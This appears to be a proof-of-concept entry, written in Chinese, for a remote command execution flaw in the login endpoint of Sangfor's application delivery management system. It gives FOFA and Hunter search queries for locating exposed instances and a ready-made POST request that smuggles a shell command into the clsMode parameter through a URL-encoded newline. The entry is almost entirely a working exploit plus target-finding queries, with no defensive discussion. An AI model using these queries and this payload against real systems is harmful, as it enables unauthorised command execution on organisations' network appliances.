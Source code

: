 # 深信服 应用交付管理系统 login 远程命令执行漏洞

## 网络测绘

fofa: app="SANGFOR-应用交付管理系统" || fid="iaytNA57019/kADk8Nev7g=="

hunter: app.name="SANGFOR 深信服应用交付报表系统"

## POC / EXP

```
POST /rep/login 

clsMode=cls_mode_login%0Als%0A&index=index&log_type=report&loginType=account&page=login&rnd=0&userID=admin&userPsw=123
```